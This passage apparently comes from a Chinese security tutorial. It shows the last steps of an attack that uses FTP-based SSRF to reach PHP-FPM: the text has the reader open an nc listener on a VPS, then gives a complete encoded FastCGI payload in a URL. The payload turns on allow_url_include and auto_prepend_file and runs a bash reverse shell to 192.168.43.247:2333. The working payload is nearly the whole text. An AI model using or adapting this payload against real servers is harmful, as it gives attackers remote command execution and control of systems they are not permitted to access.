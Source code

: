```plain
```

并在 vps 上开启一个 nc 监听，用于接收反弹的shell：

[![](assets/1698897074-e8e1bd5d5f1d557ff32d62c275a018a4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134746-93e65a0a-b2e5-1.png)

最后构造 url 发送 payload 即可：

```plain
/?file=ftp://aaa@192.168.43.247:23/123&data=%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%05%05%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH106%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00j%04%00%3C%3Fphp%20system%28%27bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.43.247/2333%200%3E%261%22%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00
```

[![](assets/1698897074-2ab4d0cd0de2df4dde617739c6e473d2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210512134746-9433ab84-b2e5-1.png)
